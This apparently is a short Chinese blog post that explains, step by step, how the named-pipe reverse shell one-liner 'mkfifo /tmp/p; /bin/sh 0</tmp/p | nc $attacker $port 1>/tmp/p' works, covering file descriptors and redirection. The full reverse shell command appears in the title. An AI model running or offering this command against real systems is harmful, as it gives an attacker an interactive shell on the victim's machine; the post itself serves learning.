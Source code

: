 ```yaml
---
title: 怎么理解mkfifo /tmp/p; /bin/sh 0</tmp/p | nc $attacker $port 1>/tmp/p
layout: post
---
```


为了方便记忆，个人是这么理解的

1. 0为标准输入，1为标准输出

2. mkfifo创建named pipe名为p

3. 标准输入的结果给sh （此时为空，所以要｜进行管道来取得输入）

4. 连上攻击者后攻击者的输入为标注输出，把输出定向到/tmp/p，所以1>/tmp/p

5. 循环以上～
